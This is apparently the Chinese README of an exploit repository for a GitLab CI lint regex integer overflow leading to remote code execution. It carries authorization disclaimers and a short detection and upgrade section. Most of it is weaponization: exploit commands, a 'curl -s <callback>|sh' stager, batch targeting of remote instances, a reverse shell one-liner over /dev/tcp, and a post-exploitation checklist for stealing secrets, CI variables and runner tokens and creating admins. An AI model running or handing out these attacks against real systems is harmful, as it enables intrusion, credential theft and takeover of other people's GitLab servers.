

<h1 align="center">
  
</h1>

# CVE-2026-97229 — GitLab CI lint 正则越界写 → RCE

**仅限授权测试。** 只对你拥有或获得明确授权的系统使用（赏金范围、客户项目、自有实验环境）。
未经授权使用属于违法行为。

[English](README.md) | [中文](README_CN.md)

一个未认证的 CI lint 请求，破坏 Onigmo 匹配器并把执行流重定向到 `libruby.so` 内的 `system()` gadget：

```
GET /api/v4/projects/:id/ci/lint?content_ref=<nonce>
  → include.rules.exists.regexp 编译特制 pattern
  → 5.7 万次重复把匹配器推入约 2 GiB 展开
  → 越界写覆盖 VM 帧
  → mov r14,rdi; call system@plt 执行 28 字节 stager
  → curl -s <callback>|sh  →  uid=998(git)
```

最后的 lint 请求无需认证，但**投放恶意 CI 配置需要对公开项目的写权限**（或实例开放注册且允许公开项目）。

---

## 一览

| 项目 | 值 |
|---|---|
| 已测受影响版本 | 19.2.0–19.2.7、19.3.0–19.3.3、19.4.0–19.4.1 |
| 不可利用 | 19.2.8、19.3.4（例外，见下）、19.3.5、19.4.2；19.2.3 无 CE 镜像 |
| 触发点 | 未认证 `GET /api/v4/projects/:id/ci/lint` |
| 前置条件 | 可达 + 对公开项目有写权限（token、被盗账号、或开放注册） |
| 影响 | 在 GitLab 容器内以 `git`（uid 998）执行命令 |
| PoC 限制 | x86_64 构建；布局跟 `libruby.so` 构建走，不跟版本号走 |
| Advisory 边界 | 19.2.x < 19.2.8、19.3.x < 19.3.5、19.4.x < 19.4.2 |

> 19.3.4 在 advisory 区间内，但它的 `libruby.so` 从不进入有漏洞的展开路径，我们未能武器化
> （证据见 `repro/evidence/2026-10-18-full-matrix/`）。

---

## 快速开始（实验环境）

```bash
./lab/run.sh 19.4.1                                    # 本地 Docker，首次启动 5–15 分钟
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1 --probe
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1
```

预期最后一行：

```json
{"status":"RCE","version":"19.4.1","lint":"http(502)","project":"root/e12ab34",
 "output":"uid=998(git) gid=998(git) groups=998(git)\n..."}
```

不需要云账号、不需要 SSH：实验环境就是普通 Docker（本地 daemon、`DOCKER_HOST` 或 docker context）。
Docker Desktop 需加 `--callback-host host.docker.internal`。

---

## 原理

1. 操作者创建公开项目，推送包含特制 `include.rules.exists.regexp` 和 110 字节仓库路径的分支。
2. 未认证 lint 请求编译该 pattern；57 805 次重复写成 `{5(?#)7805}`，绕开 Rails 侧
   `REPEAT_MAX=1000` 的文本检查。
3. 在有漏洞的构建上，匹配器物化这次展开（约 2 GiB）；尺寸计算回绕，越界写破坏相邻内存。
4. 特制路径提供一条 `call` 指令和 `system@plt` 的偏移，重定向 VM。
5. stager 为 `curl -s <callback>|sh`，最终获得 `git` 服务用户的 shell。

---

## 第一部分 — 漏洞复现（实验环境）

### 1.1 起目标

```bash
./lab/run.sh 19.4.1            # http://127.0.0.1:8080，容器 gl-19-4-1
./lab/run.sh 19.3.3 8081       # 第二个版本，另一个端口
```

启动脚本会应用利用所需的内存参数（关 sidekiq、单 Puma worker、缩小 Postgres 缓冲、
`--memory 6.5g --shm-size 256m`），等 UI 就绪并设置 root 密码。
见 [`lab/README_CN.md`](lab/README_CN.md)。

### 1.2 探测

```bash
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1 --probe
```

| 字段 | 含义 |
|---|---|
| `http` | `GET /users/sign_in` 的状态码 |
| `version` | 从容器读到的 GitLab 版本（无容器访问时为 null） |
| `class` | advisory 归类：`affected` / `patched` / `not-listed` / `unknown` |
| `libruby_md5` | 目标容器 `libruby.so` 的构建标识 |
| `layout` | `finish` / `gadget` / `step`（仅当构建已知或可推导） |
| `exploitable` | 是否拿到可用布局；`class=affected` **不代表**这个为 true |
| `layout_source` | `table`、`derived` 或 `no-overflow-in-build` |

`class: "unknown"` 只表示拿不到容器/版本信息——纯 URL 目标既无法归类，也无法推导布局。
详见下文"外部目标"。

### 1.3 利用

```bash
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1 \
  --command 'id; hostname; uname -a'
```

成功判据：`lint` 为 `dropped(HTTPError)` 或 `http(502)`，且 `output` 以 `uid=998(git)` 开头。
返回 `200` + `valid:true` 说明该构建不可打。

### 1.4 版本矩阵

| 版本线 | 可利用 | 已修复 / 不可利用 |
|---|---|---|
| 19.2.x | 19.2.0、19.2.1、19.2.2、19.2.4–19.2.7 | 19.2.8；19.2.3 无 CE 镜像 |
| 19.3.x | 19.3.0–19.3.3 | 19.3.4（匹配器不展开）、19.3.5 |
| 19.4.x | 19.4.0、19.4.1 | 19.4.2 |

逐构建证据：[`repro/evidence/2026-10-18-full-matrix/`](repro/evidence/2026-10-18-full-matrix/REPORT_CN.md)。

---

## 第二部分 — 武器化（授权目标）

### 2.1 目标格式

```text
# 纯 URL 列表（.txt）
https://gitlab-a.example
http://gitlab-b.example:8080

# 结构化（.txt 或 .csv）：name,url,container[,layout]
gl-1941,http://127.0.0.1:8080,gl-19-4-1

# 带表头 CSV
name,url,container,layout
gl-1941,http://127.0.0.1:8080,gl-19-4-1,
```

当前利用路径必须提供 `container`（读 libruby/布局 + `rails runner`）；`layout` 用于工具读不到的构建。

### 2.2 批量流水线

```bash
python3 exploit/cve97229.py --targets targets.txt --json-out run.json
```

每个目标按顺序执行：**探测** → **利用** → 成功后**后利用**
（`exploit/post/collect.sh`；`--post-command-file` 可替换，`--no-post` 关闭）。
`--probe-only` 只探测。任一目标 RCE 则退出码为 0。

### 2.3 布局解析顺序

payload 需要三个每构建常量（`finish`、`system@plt` gadget、UTF-8 step）：

1. 显式 `layout`（`0x… 0x… 12345`）；
2. 已验证的 md5 表（覆盖 10 个版本）；
3. 从容器 `libruby.so` 现场推导（`exploit/layout.py`）。

所有已知可利用构建只用到**两套布局**：`0x486DA9/0x31EE29/1249885` 与
`0x4885A9/0x31E809/1256138`。

### 2.4 外部目标（无 Docker）

`--mode external` 只需要 HTTP 和一个 PAT（`api` scope）：通过 API 建公开项目、用
`oauth2:<token>` push、发未认证 lint，最后删除项目。

```bash
python3 exploit/cve97229.py --mode external --targets scope.csv \
  --token glpat-... --scope scope.txt --authorized \
  --callback-host 203.0.113.10 --callback-port 80
```

- **布局**：认证后的 `GET /api/v4/version` → 版本/md5 表；版本未知则依次尝试两套候选布局
  （`--force-unknown-version` 可跳过版本查询）；
- **凭据**：需要能建公开项目的 `api` scope PAT；没有则返回 `no-write-path`，不发出任何请求；
- **回调**：目标可达且**不超过 16 字节**（如 `cb.example:80`），超长会在发请求前被拒绝；
- **安全约束**：利用阶段强制 `--scope` + `--authorized`；`--dry-run` 只做指纹；
- **清理**：项目先进入删除计划，随后永久删除（用 `GET /api/v4/projects/:id` 验证）；
- **Windows**：特制路径不落盘，直接写入 git 索引。

---

## 第三部分 — 后利用

利用成功后身份是**容器内的 `git`（uid 998）**，足以拿下整套 GitLab。
手册：[`exploit/post/README_CN.md`](exploit/post/README_CN.md)。

```bash
# 一键采集：身份、secrets、数据库、仓库、sudo、docker.sock
python3 exploit/cve97229.py --url ... --container ... --command-file exploit/post/collect.sh
```

| 目标 | 价值 |
|---|---|
| `/etc/gitlab/gitlab-secrets.json` | `db_key_base`、`otp_key_base`、runner/JWT 密钥；可解密 CI 变量与令牌 |
| `database.yml` + `gitlab-rails runner` | 直连数据库、签发 PAT、创建管理员、读取 CI 变量 |
| `/var/opt/gitlab/git-data/repositories` | 全部仓库，含私有仓库 |
| `Ci::Runner.pluck(:token)` | 注册恶意 runner |
| `gitlab.rb` | SMTP/LDAP、对象存储、registry 密钥 |

交互 shell：`--command 'bash -i >& /dev/tcp/<host>/4444 0>&1'`，配合监听。

---

## 检测与修复

升级到 **19.2.8+、19.3.5+、19.4.2+**。

三联信号：

1. workhorse：`badgateway: failed to receive response: EOF`，路径 `GET /api/v4/projects/*/ci/lint`；
2. Puma：worker 重启 + `regexp_matcher.rb:58: [BUG] Segmentation fault`；
3. Git 历史：`( ?# )` 拆分量词、重复 `[[:word:]]`，或 110 字节含 `\U00010400` 的路径。

---

## 仓库结构

```
lab/                 本地 Docker 实验环境（run.sh、stop.sh）
exploit/cve97229.py  探测 / 利用 / 批量（Docker + HTTP）
exploit/layout.py    从 libruby 推导 finish/gadget/step
exploit/post/        后利用手册 + 采集脚本
targets.example.txt  目标格式
docs/                分析笔记（中英）
repro/               逐版本证据（中英）
```

## 范围与致谢

原始 PoC：[jburgess-r7/CVE-2026-97229-PoC](https://github.com/jburgess-r7/CVE-2026-97229-PoC)。
技术分析：[Rapid7](https://www.rapid7.com/blog/post/ra-gitlab-ci-cd-regex-integer-overflow-technical-analysis-cve-2026-97229/)。

所有实验均在自有容器或授权目标上完成。未经授权对非自有系统进行利用属于违法行为。
